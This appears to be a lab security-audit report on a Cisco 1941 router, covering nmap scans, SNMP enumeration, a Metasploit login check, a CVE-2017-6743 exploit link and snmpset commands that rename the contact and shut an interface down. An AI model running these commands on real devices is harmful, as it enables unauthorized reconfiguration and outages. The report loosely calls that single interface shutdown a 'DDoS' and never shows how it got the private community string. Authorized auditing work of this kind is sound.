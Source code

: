 ## Explicit Permission to test their Cisco Router-Switch system in Haaga Helia Lab Environment

# Security Audit of Cisco Router-Switch System

## x. 

I know from physical access that there are 2 routers and 3 switches on this network. I also have the SSH access to normal user on these switches. They all run Cisco OS and I am simply looking for vulnerabilities.

<img src="0.png" alt="img"/>

The router model is `C1900 Integrated Services Router` from Cisco 1941 series

The OS version is `15.5(3)M5`

Image type: `universalk9`

##### Note 

This version is rather old (last update in 2019) and not up to date and potentially vulnerable. 

## a. Scanning

I am on the same host network as the Cisco router on subnet 172.28.x.x

My Kali Linux is on bridged adapter on the same subnet. 
I began by conducting an nmap scan on the target device using `nmap -A -Pn -T4 -vv -p- <target>`

<img src="1.png" alt="img"/>

The only open port was SSH on port 22. After feeding the image to ChatGPT 5.0 for deciphering, some details from the image include `1024 bit RSA`, `OS: IOS`, `IOS 12.4-15.x version`, `Vendor: Cisco Systems, Inc.`

But we already know this is a genuine Cisco device of model 1900 series and is running version 15.5(3).

I tried again using `sudo nmap -sS -p- -T4 --reason --max-retries 2 <target>` just to make sure I got all tcp ports along with sudo command.

<img src="2.png" alt="img"/>

This time it showed a lot more ports but they were mostly filtered.

I tried one more nmap with UDP ports `sudo nmap -sU --top-ports 200 --reason --max-retries 2 <target>`

<img src="3.png" alt="img"/>

Now there's more ports open, although I cannot be sure they mean anything yet.

Right now the main ports that are open are port: `22 ssh`, `123 ntp`, `161 snmp`

I began by looking at CVEs on the internet for Cisco routers and stumbled upon one regarding the 161 snmp port: https://www.cvedetails.com/cve/CVE-2017-6743/ 

This one is a buffer overflow vulnerability for remote code execution. I first must confirm that the snmp port works.`snmpwalk -v2c -c public 172.28.200.2 1.3.6.1.2.1.1.5.0` shows if SNMP v2 works and if this returns a public string, which it does: `iso.3.6.1.2.1.1.5.0 = STRING: ""` it will open up an attack vector.

<img src="4.png" alt="img"/>

## b. Exploitation

Now that we know it is potentially vulnerable to snmp exploits, we will do some confirmation with Metasploit.

`use auxiliary/scanner/snmp/snmp_login` will help me confirm my suspicion that it is vulnerable if it completes.

<img src="5.png" alt="img"/>

It has successfully completed and It says `LOGIN SUCCESSFUL public access level read-only` and validated the community string. This system is now very highly likely vulnerable.

However, upon browsing the internet and searching for an exploit I have not found an exploit and would need to write one myself which is very unlikely because I do not have the knowledge related to Cisco IOS. I only found a python exploit on Github that exploits the 15.1(4)M12a version is an older version and this is updated. 

Source: https://github.com/artkond/cisco-snmp-rce

I do not believe I can customize the exploit to work on the newer system so the risk remains relatively low. However, since we have the private string we can use it to do a simple DDoS attack.

Iterating through the OIDs using snmpwalk we can find different identifiers for the services and info on the router.

Read through all available OIDs
`snmpwalk -v 2c -c private 172.28.200.3`

Read through sysContact email
`snmpget -v 2c -c private 172.28.200.3 1.3.6.1.2.1.1.4.0`

Change sysContact email
`snmpset -v 2c -c private 172.28.200.3 1.3.6.1.2.1.1.4.0 s "admin@example.com"`

Read strings for the services available
`snmpwalk -v 2c -c private 172.28.200.3 1.3.6.1.2.1.2.2.1.2`

Read which services have admin enabled:
`snmpwalk -v 2c -c private 172.28.200.3 1.3.6.1.2.1.2.2.1.7`

Turning off the ifAdminStatus interface on router, not allowing traffic to be sent or received
`snmpset -v 2c -c private 172.28.200.3 1.3.6.1.2.1.2.2.1.7.3 i 2`

Now we cannot get in contact with the router anymore and have succesfully DDoSed it on the network.


## c. Summary

The Cisco router is running an outdated OS 15.5(3)M5 with SNMP v1 and v2c enabled using the default public community string. The SNMP port is open, making the device potentially vulnerable to CVE-2017-6743. There was an outdated exploit for version 15.1(4)M12a which does not work on the current IOS system, thus the system presents only a low risk attack vector due to outdated firmware and open ports. 

A threat actor would need physical access to the network and also know the password for the network in order to be able to interact with the ports, thus I label this as low risk and unlikely to be hacked. Nonetheless the right precautions should be taken as they can still DDoS the routers if the SNMP ports are online and misconfigured. 





References:
https://www.reddit.com/r/netsec/comments/7oawj2/

cisco_ios_snmp_remote_code_execution_cve20176737/

https://nvd.nist.gov/vuln/detail/cve-2017-6743

https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-20170629-snmp.html


